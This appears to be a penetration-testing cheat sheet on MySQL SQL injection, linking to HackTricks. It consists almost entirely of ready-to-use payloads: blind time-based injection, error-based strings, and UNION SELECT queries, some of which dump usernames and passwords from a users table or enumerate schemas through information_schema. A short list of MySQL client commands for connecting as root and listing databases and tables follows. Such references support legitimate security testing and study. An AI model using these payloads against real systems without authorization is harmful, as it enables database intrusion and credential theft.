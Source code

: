 #### MYSQL

##### sqli

https://book.hacktricks.xyz/pentesting-web/sql-injection

Blind SQL Injections

```
' AND IF (1=1, sleep(5),'false') -- //
```

Identifying SQLi via Error-based Payloads

```
' OR 1=1 -- //
' or 1=1 in (select @@version) -- //
' OR 1=1 in (SELECT * FROM users) -- //
' or 1=1 in (SELECT password FROM users) -- //
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

UNION-based Payloads

```
' ORDER BY 1-- //
%' UNION SELECT database(), user(), @@version, null, null -- //
' UNION SELECT null, null, database(), user(), @@version  -- //
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
' UNION SELECT null, username, password, description, null FROM users -- //
```

##### general commands

```
# connect to mysql DB
mysql -u root -p'root' -h <IP> -P 3306

# check version
select version();

#check users
select system_user();

# list databases
show databases;

# list tables
show tables from <database>;

# chose database
use <database>;

# show table
select * from <table name>;
```
